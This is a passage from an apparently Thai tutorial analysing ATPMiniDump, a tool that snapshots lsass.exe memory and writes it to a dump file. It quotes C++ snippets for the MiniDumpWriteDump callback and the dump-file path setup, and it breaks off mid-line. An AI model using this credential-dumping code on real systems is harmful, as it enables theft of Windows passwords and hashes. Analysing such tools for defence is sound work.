 จากโครงสร้างของ `MINIDUMP_CALLBACK_INFORMATION` โค้ดในส่วนถัดมาหลังจากการเรียกใช้ฟังก์ชัน `ZeroMemory()` จะแสดงให้เห็นถึงการกำหนดให้กับสมาชิกในโครงสร้างโดยมีการกำหนดให้ `CallbackInfo.CallbackRoutine` มีค่าเป็น `ATPMiniDumpWriteDumpCallBack` และค่า `CallbackInfo.CallbackParam` มีค่าเป็น `NULL`

เราจะเห็นการกำหนด `ATPMiniDumpWriteDumpCallback` ในลักษณะของ callback ที่[บรรทัดที่ 301](https://github.com/b4rtik/ATPMiniDump/blob/master/ATPMiniDump/ATPMiniDump.c#L301) ตามโค้ดด้านล่าง

```cpp
BOOL CALLBACK ATPMiniDumpWriteDumpCallback(
	__in     PVOID CallbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
	switch (CallbackInput->CallbackType)
	{
	case 16: // IsProcessSnapshotCallback
		CallbackOutput->Status = S_FALSE;
		break;
	}
	return TRUE;
}
```

Callback คือลักษณะของฟังก์ชันซึ่งจะถูกเรียกใช้เมื่อเกิดเหตุการณ์หนึ่งขึ้นมา โดยการเรียกใช้ callback จะต้องมีการ register หรือ "ผูก" มันไว้ก่อนซึ่งในบางครั้งก็ทำได้โดยการระบุชื่อของฟังก์ชัน callback ไปเป็นอากิวเมนต์ ในกรณีนี้การระบุ `ATPMiniDumpWriteDumpCallBack` ไว้ให้กับ `CalbackInfo.CallbackRoutine` อาจแสดงให้เห็นถึงการ register ฟังก์ชัน callback เอาไว้ใช้ภายหลัง

จนถึงจุดนี้ หากฟังก์ชันทำงานจนเสร็จสิ้นและโปรแกรมไม่ได้มีการหยุดการทำงาน กระบวนการในขั้นที่มีการเข้าถึงหน่วยความจำของโปรเซส `lsass.exe` และทำ snapshot ด้วยฟังก์ชัน `PssCaptureSnapshot` ก็ถือได้ว่าเสร็จสิ้น ในส่วนต่อไป ฟังก์ชัน `wmain()` จะดำเนินการในขั้นตอนสุดท้ายคือการเรียกใช้ฟังก์ชัน `MiniDumpWriteDump()` เพื่อสร้างไฟล์จากข้อมูล snapshot

```cpp
wprintf(L"[3] Create memorydump file:\n");

WCHAR chDmpFile[MAX_PATH] = L"\\??\\";
WCHAR chWinPath[MAX_PATH];
GetWindowsDirectory(chWinPath, MAX_PATH);
wcscat_s(chDmpFile, sizeof(chDmpFile) / sizeof(wchar_t), chWinPath);
wcscat_s(chDmpFile, sizeof(chDmpFile) / sizeof(wchar_t), L"\\Temp\\dumpert.dmp");

UNICODE_STRING uFileName;
RtlInitUnicodeString(&uFileName, chDmpFile);
wprintf(L"	[+] Dump %wZ memory to: %wZ\n", pWinVerInfo->ProcName, uFileName);
```

โค้ดด้านบนแสดงให้เห็นการเตรียมการเพื่อการเขียนไฟล์ โดยมีการสร้างพาธและชื่อไฟล์เพื่อรองรับการสร้างไฟล์เอาไว้


```cpp
HANDLE hDmpFile = NULL;

IO_STATUS_BLOCK IoStatusBlock;
ZeroMemory(&IoStatusBlock, sizeof(IoStatusBlock));

OBJECT_ATTRIBUTES FileObjectAttributes;
InitializeObjectAttributes(
  &FileObjectAttributes,
  &uFileName,
  OBJ_CASE_INSENSITIVE,
  NULL,
  NULL
);

_NtCreateFile NtCreateFile = (_NtCreateFile)
```